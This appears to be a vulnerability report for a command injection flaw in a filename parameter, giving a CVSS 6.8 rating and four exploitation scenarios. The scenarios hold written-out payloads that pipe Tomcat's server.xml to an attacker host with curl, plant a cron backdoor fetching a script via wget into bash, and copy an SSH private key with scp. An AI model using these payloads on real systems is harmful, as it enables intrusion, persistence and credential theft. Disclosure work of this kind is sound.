 # CVSS
**Score**: 6.8 \
**Vector**: CVSS:3.1/AV:A/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:H \
**Severity**: Medium

The Medium severity rating is based on several factors that balance the high potential impact with significant access limitations:

- **Adjacent (A) attack vector**: The vulnerability is only exploitable from the internal network, limiting the potential attacker pool.

- **Low (L) attack complexity**: Once an attacker has access, exploiting the vulnerability is straightforward and requires only basic knowledge of command injection techniques.

- **High (H) privileges required**: The vulnerability is only accessible to high-level users, which significantly reduces the likelihood of exploitation.

- **No (N) user interaction**: The vulnerability can be exploited without requiring any action from other users.

- **Unchanged (U) scope**: The vulnerability affects only the vulnerable component and doesn't cross privilege boundaries.

- **High (H) impact on confidentiality, integrity, and availability**: Successful exploitation could lead to unauthorized access to sensitive data, modification of system files, and potential service disruption.

The calculated CVSS base score of 6.8 places this vulnerability in the Medium severity range, primarily because the high privileges required and adjacent network positioning substantially limit the potential for exploitation, despite the significant potential impact.

# Exploitation Scenarios
**Scenario 1: Basic Command Execution**
An attacker with high-level user access to the application submits a request with the parameter `filename=server.log;id`, causing the application to execute both commands: `tail -n 100 server.log` followed by the `id` command, revealing the user context of the application server.

**Scenario 2: Data Exfiltration**
An attacker leverages the vulnerability to steal sensitive configuration data by providing a parameter like `filename=/dev/null;cat /opt/tomcat/conf/server.xml | curl -d @- https://attacker-controlled-server.com/collect`. This command sends the contents of Tomcat's server configuration file, which might contain credentials, to an external server.

**Scenario 3: Persistent Access**
An attacker establishes persistence by creating a backdoor: `filename=log.txt;echo '* * * * * wget -O- https://malicious-server.com/backdoor.sh | bash' > /tmp/crontab_entry && crontab /tmp/crontab_entry`. This adds a cron job that periodically connects to the attacker's server and executes commands, providing ongoing access even if the initial vulnerability is patched.

**Scenario 4: Lateral Movement**
An insider threat actor exploits the vulnerability to move laterally within the network: `filename=access.log;scp /home/tomcat/.ssh/id_rsa attacker@internal-server:/tmp/stolen_key`. This command copies SSH private keys to another machine controlled by the attacker, potentially enabling access to other internal systems.
